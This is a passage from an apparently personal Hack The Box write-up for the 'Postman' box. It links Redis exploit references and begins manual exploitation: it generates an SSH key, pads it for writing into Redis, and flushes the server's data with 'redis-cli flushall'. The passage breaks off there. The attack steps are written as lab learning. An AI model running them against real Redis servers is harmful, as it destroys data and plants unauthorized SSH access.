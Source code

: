 It seems that this exploit does not work. (Note from my future self: This is a configuration on the box so that this type of exploit does not work)

I found this metasploit module:

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/47195)

But I will not try it, I want to do it without msf. So I haven't tested it, so no warranty from my side.

I found a way to do this manual:

[](https://dl.packetstormsecurity.net/1511-exploits/redis-exec.txt)

## Manual Exploitation

---

I already checked if the system is vulnerable. So I can now begin to create an SSH key:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ ssh-keygen -t rsa -C "crack@redis.io"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): /hackthebox/oscp-prep/postman/id_rsa
/hackthebox/oscp-prep/postman/id_rsa already exists.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /hackthebox/oscp-prep/postman/id_rsa
Your public key has been saved in /hackthebox/oscp-prep/postman/id_rsa.pub
The key fingerprint is:
SHA256:gguL/sbGwDiCYzJtRpte5xXBwjGUhhP8m2NHQa8qEqg crack@redis.io
The key's randomart image is:
+---[RSA 3072]----+
|   ..=+=.        |
|    + =.+.       |
|     + . o.      |
| ..  .. o.       |
|=ooo. .+S.       |
|X=*+..*oo        |
|EB*.o+.+         |
|. .* ..          |
| .+.             |
+----[SHA256]-----+
```

Before transferring the key, I need to obfuscate it by adding new lines at the start and end:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]       
└─$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

To write the file to the server, I can use the Redis-cli commands. First, I need to flush it:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ redis-cli -h 10.10.10.160 flushall
OK
```
